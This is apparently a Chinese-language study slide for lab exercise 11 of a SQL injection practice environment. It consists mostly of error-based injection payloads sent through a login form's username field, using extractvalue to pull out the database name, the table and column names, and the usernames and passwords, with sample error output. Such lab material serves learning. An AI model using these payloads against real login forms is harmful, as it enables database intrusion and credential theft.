

报错注入-以11为例
#爆库
uname=admin' and extractvalue(1,concat(0x7e,(select database()))) #&passwd=admin&submit=Submit
##XPATH syntax error: '~security'
#爆表
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))#&passwd=admin&submit=Submit
##XPATH syntax error: '~emails,referers,uagents,users'
##只能查询到前几个表，后面加上not in ()就可以查到其他表了，如：
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() and table_name not in ('emails')))) #&passwd=admin&submit=Submit
#爆列名
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) #&passwd=admin&submit=Submit
##机械操作对其他的进行处理

#爆值
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)))#&passwd=admin&submit=Submit
##同样not in查其他值
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)))--+&passwd=admin&submit=Submit